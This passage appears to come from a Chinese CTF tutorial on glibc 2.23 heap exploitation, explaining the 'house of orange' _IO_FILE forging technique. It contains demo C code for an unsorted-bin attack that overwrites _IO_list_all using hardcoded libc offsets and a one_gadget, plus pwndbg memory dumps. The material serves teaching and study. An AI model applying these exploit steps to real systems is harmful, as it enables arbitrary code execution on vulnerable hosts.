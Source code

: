 &emsp;&emsp;<font size=2>伪造`_IO_FILE`这个现在其实用的是比较多的，`glibc2.23`没有做什么检查，而`glibc2.24`开始就有对`vtable`做一些检查，但绕过也非常简单，这个系列主要是讲`glibc2.23`的，因此其他的就自行搜索其他资料吧，如果以后得空了说不定也会分析一下。</font></br>

&emsp;&emsp;<font size=2>最初ctf上伪造`_IO_FILE`的好像是一个叫`house of orange`的题目，利用原理就是用`unsorted-bin attack`修改了`_IO_list_all`指向的链表，然后故意触发错误从`malloc_printerr`一路到了伪造的`vtable`上的`__overflow`，就顺势getshell了。我们先从`unsorted-bin attack`修改的`_IO_list_all`开始分析吧：</font></br>

```C
        void *p1, *p2, *p3, *p4;
        ull *p;
        ull libc_base = 0;
        ull _IO_list_all = 0x3c5520;
        ull one_gadget = 0xf1147;

        setvbufs();
        p1=malloc(0x100);
        malloc(0x20);

        free(p1);
        malloc(0xa0);

        p2 = malloc(0x100);
        // now we have a 0x60 smallbin
        //
        // avoid smallbin to be alloced, use 0x100
        malloc(0x100);

        free(p2);
        libc_base = *(ull*)p2 - 0x3c4b78;
        *((ull*)p2+1) = libc_base+_IO_list_all - sizeof(void*)*2;

        malloc(0x100);

```

&emsp;&emsp;<font size=2>这是一段利用完刚修改`_IO_list_all`的demo代码，为什么我们要修改`_IO_list_all`呢？因为这个全局变量是指向一个`_IO_FILE`结构体的`_IO_2_1_stderr_`，而这个`_IO_FILE`又是通过其中的`_chain`元素把每一个结构体串联在一起形成的链表，如果结构体有问题，那么在触发错误的时候系统会根据`_chain`查找到下一个节点。</font></br>

&emsp;&emsp;<font size=2>接下来我们再想想为什么要用`unsorted-bin attack`写入一个`main_arena`到`_IO_list_all`里去呢？写入之后，其`_chain`是什么？没错，就是`main_arena`中smallbin数组的某个size索引的堆块位置处，而这个size就是`0x60`。如下`unsorted-bin attack`完成后的情况：</font></br>

```
pwndbg> x/xg & _IO_list_all
0x7ffff7dd2520 <_IO_list_all>:	0x00007ffff7dd1b78
pwndbg> x/20xg & main_arena
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b70 <main_arena+80>:	0x0000000000000000	0x0000000000602360
0x7ffff7dd1b80 <main_arena+96>:	0x00000000006020b0	0x0000000000602140
0x7ffff7dd1b90 <main_arena+112>:	0x00007ffff7dd2510	0x00007ffff7dd1b88
0x7ffff7dd1ba0 <main_arena+128>:	0x00007ffff7dd1b88	0x00007ffff7dd1b98
0x7ffff7dd1bb0 <main_arena+144>:	0x00007ffff7dd1b98	0x00007ffff7dd1ba8
pwndbg> 
0x7ffff7dd1bc0 <main_arena+160>:	0x00007ffff7dd1ba8	0x00007ffff7dd1bb8
0x7ffff7dd1bd0 <main_arena+176>:	0x00007ffff7dd1bb8	0x00000000006020b0
0x7ffff7dd1be0 <main_arena+192>:	0x00000000006020b0	0x00007ffff7dd1bd8
0x7ffff7dd1bf0 <main_arena+208>:	0x00007ffff7dd1bd8	0x00007ffff7dd1be8
0x7ffff7dd1c00 <main_arena+224>:	0x00007ffff7dd1be8	0x00007ffff7dd1bf8
0x7ffff7dd1c10 <main_arena+240>:	0x00007ffff7dd1bf8	0x00007ffff7dd1c08
0x7ffff7dd1c20 <main_arena+256>:	0x00007ffff7dd1c08	0x00007ffff7dd1c18
0x7ffff7dd1c30 <main_arena+272>:	0x00007ffff7dd1c18	0x00007ffff7dd1c28
```